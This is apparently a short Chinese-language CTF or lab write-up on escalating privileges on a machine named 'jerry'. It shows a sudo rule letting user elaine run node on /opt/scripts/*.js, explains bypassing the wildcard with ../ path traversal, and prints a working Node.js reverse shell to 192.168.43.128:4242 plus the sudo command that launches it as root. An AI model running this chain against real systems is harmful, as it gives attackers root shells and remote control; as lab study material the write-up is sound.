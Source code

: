 elaine用户sudo -l
```
elaine@jerry:~$ sudo -l
Matching Defaults entries for elaine on jerry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User elaine may run the following commands on jerry:
    (ALL) NOPASSWD: /usr/bin/node /opt/scripts/*.js

```
文件名使用通配符，可以使用相对路径../进行bypass
```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "192.168.43.128", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
sudo /usr/bin/node /opt/scripts/../../../../tmp/shell.js
![](photo/Pasted%20image%2020240603010352.png)